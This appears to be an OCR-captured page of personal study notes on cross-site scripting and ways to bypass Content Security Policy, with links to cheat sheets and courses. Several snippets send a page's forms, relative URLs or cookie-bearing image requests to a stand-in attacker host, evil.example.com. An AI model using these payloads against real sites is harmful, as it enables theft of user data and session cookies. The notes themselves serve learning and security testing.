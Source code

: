 
       ============================================================


**XSS payload without - &<>"=()**
[Link]: https://security.stackexchange.com/questions/173032/xss-payload-without

**Script Gadgets**
[Script Gadgets]: /sec/web/xss/Bypassing XSS mitigations via Script gadgets.pdf
[Video]: https://www.youtube.com/watch?v=p07acPBi-qw&list=PLpr-xdpM8wG8RHOguwOZhUHkKiDeWpvFp&index=4

+ DOM XSS notes has more detail on this


       ============================================================
       
       
**Bypass CSP**
* Uses: CSP, CSS, Html Comments, Html Elements, JS Fucntions, URLs

+ _Whitelisting generic CDN domains_ - `generic.cdn.example.com`
 - Attacker can upload own scripts

+ Check if the _nonce_ value is properly set:
  ```Example
  <meta http-equiv="Content-Security-Policy" content="
      default-src 'self'; script-src 'self' 'nonce-rAnd0m';
  ">
  
  <script nonce="rAnd0m">
  	doWhatever();
  </script>
  ```

+ `base-uri` is not set:
     <base href="https://evil.example.com">
 - Once hijacked, relative URLs are vulnerable
 - I just make my evil.example.com have the same `href`/`forms`

+ `form-action` - specifies where forms can submit their data
   If it's not set:
     <form action=https://evil.example.com>
       <!--inputs-->
     </forms>

+ `script-src` that allow XSS:
 - `script-src 'unsafe-inline'`
 - `script-src http`
 - `script-src https`
 - `script-src *`

+ `img-src` - FIREFOX SPECIFIC
 - Stealing With Images
 - Only _works if image is above the html content_
 - Can transport sensitive info like cookies over using JS
   `<img src='https://evil.example.com?`
 - If you look at the _nework tab_ in the _developer tools_ the html from the webpage can be send


       
       ============================================================


[Portswigger Cheat Sheet]: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
[Above Downloaded File]: /sec/web/xss/xss-cheat-sheet.pdf
[AppSecEU Slides & Videos]: https://2017.appsec.eu/slides-and-videos
[Course]: https://chefsecure.com/courses/xss
[LiveOverflow]: https://www.youtube.com/watch?v=HcrQy0C-hEA
[OWASP Cheat Sheet]: https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
[Link]: http://www.jsfuck.com/
[There's a chapter on JSONP - LiverOverflow]: https://www.youtube.com/watch?v=aCexqB9qi70
[LiveOverflow]: https://www.youtube.com/watch?v=eQFbG6CwwdI
 [Chef Secure]:  https://chefsecure.com/courses/xss/recipes/how-to-create-real-xss-exploits-to-attack-websites
[Link]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP